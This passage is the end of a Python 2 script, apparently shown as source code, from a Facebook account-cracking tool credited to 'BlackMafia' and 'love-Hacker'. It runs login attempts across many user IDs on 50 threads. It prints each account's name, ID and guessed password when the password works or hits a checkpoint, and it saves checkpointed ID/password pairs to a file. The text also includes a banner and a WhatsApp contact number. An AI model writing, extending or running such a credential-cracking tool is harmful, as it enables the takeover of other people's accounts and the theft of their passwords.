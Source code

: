 														print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'	
														print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']	
														print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user	
														print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass6 + '\n'	
														oks.append(user+pass6)	
													else:		
														if 'www.facebook.com' in q["error_msg"]:	
															print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'
															print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']
															print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user
															print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass6 + '\n'
															cek = open("out/super_cp.txt", "a")
															cek.write("ID:" +user+ " Pw:" +pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)

																	
															
		except:
			pass
		
	p = ThreadPool(50)
	p.map(main, id)
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;91m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;93m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 Corona.py)↩\033[1;97m....'
	print"\033[1;91mTotal OK/\x1b[1;95mCP \033[1;93m: \033[1;91m"+str(len(oks))+"\033[1;93m/\033[1;95m"+str(len(cekpoint))
	print """
                         ~·¹´¨¨¨¨¨¨¨¨¨¨¨¨¨¨`²·    
                     .·´;:':                              `·. 
                 .·´;;:: ':                                   `·. 
     '        .·´;;;:::  :                  '                     \ 
            /;;;.·´¨¨¨` · .                      . · ´¨¨¨¨`·. ',    
          ,';;;/;:: :       `·.            '   ·'              \     ; 
          ;';,';;::: :'         '\            ·:                 ',   ; 
          ;'/¸.·´¨¨` · . `·.     ',   !   ,':    .·´ . · ´¨¨¨¨`·.¸\  ;  
          ',;;',:::      `·.      ';      ;::    .·´            /  ,'      
           ',;;'\::        ' \     ';     ;: ,' /           .·´   ,' 
       '     `·.;'`·.         '',   ;     ;  ,'         .·´   ¸.·´ 
                '`·.: `¹·~-.,¸ \ ,'      ',/¸,.-~·¹´  '  .·´          
                    `·.;:'      `'`       ´'´        ' .·´  
                       `·.:          ´ `          .·´          
                          `·.,¸    ¸,.-.     .·´ 
                             ·;~-.¸     ¸,.;´
      
                       Checkpoint ID Open After 7 Days

•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;91m ....Aziz 420   Gw.mafia....... \033[1;95m :
•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                WhatsApp Num
              \033[1;91m +923094161457"""
	
	raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
	menu()

if __name__ == '__main__':
	login()
